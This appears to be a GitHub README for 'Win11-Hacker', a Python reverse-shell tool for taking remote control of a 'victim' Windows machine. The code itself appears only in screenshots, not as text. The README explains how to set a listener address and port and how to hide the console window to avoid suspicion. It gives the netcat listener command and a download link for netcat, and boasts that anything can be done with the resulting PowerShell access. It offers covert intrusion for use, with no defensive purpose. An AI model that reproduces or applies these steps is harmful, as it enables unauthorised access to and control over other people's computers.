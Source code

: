 # Win11-Hacker
Hack into any system using this python code

In this code you only have to provide your listening ip address and port in the code shown in the below picture

![Screenshot (62)](https://user-images.githubusercontent.com/92925838/189038885-38f968fc-4c60-43d2-9d89-fe756b554261.png)

After giving the port number, you need to hide the console window to avoid unnecessary suspicion.

-- In order to hide the console window you need to rename the  winHacker.py to winHacker.pyw 

Attacker listening through netcat using command :

                                   nc64.exe -nvlp 7878    ('7878' is the port number, you have to provide port number that given to the above code)
                                   
![Screenshot (63)](https://user-images.githubusercontent.com/92925838/189040210-c8176f0c-9c0d-475d-8ced-33a1bce53f8b.png)
                                          
DOWNLOAD NETCAT USNG THIS LINK : https://www.4sync.com/web/directDownload/aNHtMRp8/CggsuJhW.bdb188ac3bdd769e50388897cadb0c05

 AN EXAMPLE WITH PICTURE OF GETTING A REVERSE CONNECTION FROM THE VICTIM :
 
 ![Screenshot (64)](https://user-images.githubusercontent.com/92925838/189043297-f2ff5f2d-3c37-4a34-b592-ea71183152f4.png)
 
After getting access use the POWERSHELL commands. (WE CAN DO ANYTHING WITH THE SHELL)
If you dont know powershell commands, then google the powershell commands.
